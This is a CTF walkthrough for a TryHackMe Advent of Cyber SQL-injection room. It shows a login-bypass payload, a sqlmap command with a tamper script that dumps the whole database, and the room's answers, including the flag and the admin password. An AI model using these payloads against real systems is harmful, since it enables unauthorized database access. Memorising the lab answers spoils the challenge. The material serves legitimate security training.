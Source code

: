 ```yaml
---
description: Web Exploitation ; sql injection ; sqli ; sqlmap
---
```


# Someone stole Santa's gift list!

## Video

{% embed url="https://www.youtube.com/watch?v=Kitx7cSNsuE" %}

## Resources

List of SQL Commands: [https://www.codecademy.com/articles/sql-commands](https://www.codecademy.com/articles/sql-commands)

Check out this cheat sheet: [swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)

Payload list: [payloadbox/sql-injection-payload-list](https://github.com/payloadbox/sql-injection-payload-list)

In-depth SQL Injection tutorial: [SQLi Basics](https://tryhackme.com/room/sqlibasics)

[SQLMAP cheatsheet](https://www.security-sleuth.com/sleuth-blog/2017/1/3/sqlmap-cheat-sheet)

## Challenge

![](../.gitbook/assets/image%20%2877%29.png)

Without using directory brute forcing, what's Santa's secret login panel?

![](../.gitbook/assets/image%20%2810%29.png)

{% hint style="success" %}
/santapanel
{% endhint %}

Visit Santa's secret login panel and bypass the login using SQLi

![](../.gitbook/assets/image%20%2846%29.png)

`Username` `'or true --`

`Password` `'--`

![](../.gitbook/assets/image%20%2871%29.png)

{% hint style="success" %}
No answer needed
{% endhint %}

How many entries are there in the gift database?

![](../.gitbook/assets/image%20%2821%29.png)

**`Save Item`**

`sqlmap -r santapanel.req --tamper=space2comment --dump-all -dbms sqlite`

![](../.gitbook/assets/image%20%2853%29.png)

![](../.gitbook/assets/image%20%2814%29.png)

{% hint style="success" %}
22
{% endhint %}

What did Paul ask for?

![](../.gitbook/assets/image%20%2827%29.png)

{% hint style="success" %}
Github Ownership
{% endhint %}

What is the flag?

![](../.gitbook/assets/image%20%2872%29.png)

{% hint style="success" %}
thmfox{All\_I\_Want\_for\_Christmas\_Is\_You}
{% endhint %}

What is admin's password?

![](../.gitbook/assets/image%20%283%29.png)

{% hint style="success" %}
EhCNSWzzFP6sc7gB
{% endhint %}

